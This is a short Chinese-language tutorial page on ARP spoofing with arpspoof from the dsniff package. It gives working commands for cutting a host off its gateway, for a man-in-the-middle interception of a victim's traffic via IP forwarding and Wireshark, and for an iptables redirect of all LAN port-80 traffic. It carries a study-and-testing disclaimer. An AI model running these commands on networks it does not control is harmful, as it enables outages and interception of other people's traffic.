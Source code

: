 ```yaml
---
sidebar_position: 1
title: Arp 攻击
---
```


> 本篇内容仅用于学习和测试，本人遵纪守法。

## 安装

arpspoof 是 dsniff 包里的一个程序，可用于arp攻击。Manjaro 中执行以下命令安装这个软件包就可以使用了。

``` bash
yay -S dsniff
```

## 介绍

arpspoof - 截获交换局域网中的数据包。

```
用法
      arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host

描述
      arpspoof通过伪造的ARP响应包改变局域网中从目标主机（或所有主机）到另一个主机（host）的数据包转发路径。这是交换局域网中嗅探网络流量的一种极为有效的方法。
      内核IP转发（或如fragrouter这样的、用户层面的、能完成同样功能的软件）必须提前开启。
```

## 使用情景

1.&nbsp;断网攻击，不开启流量转发，使用我的无线网卡 `wlp8s0`，攻击网关
```bash
sudo arpspoof -i wlp8s0 -t 192.168.1.1
```
2.&nbsp;中间人攻击，截获用户和网关之间的流量

开启流量转发
```bash
echo 1 >> /proc/sys/net/ipv4/ip_forward
```
欺骗双方，充当中间人
```bash
sudo arpspoof -i wlp8s0 -t 192.168.1.1 192.168.1.106
sudo arpspoof -i wlp8s0 -t 192.168.1.106 192.168.1.1
```

此时网关以为我是106，而106以为我是网关。双方的流量都将经过这里，使用 WireShark 即可对经过网卡的流量进行分析。

3.&nbsp;重定向攻击

使局域网所有设备访问的 80 端口，重定向到我这里的 8080 端口，需要开启流量转发。
```bash
sudo arpspoof -i wlp8s0 192.168.1.1
```
```bash
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```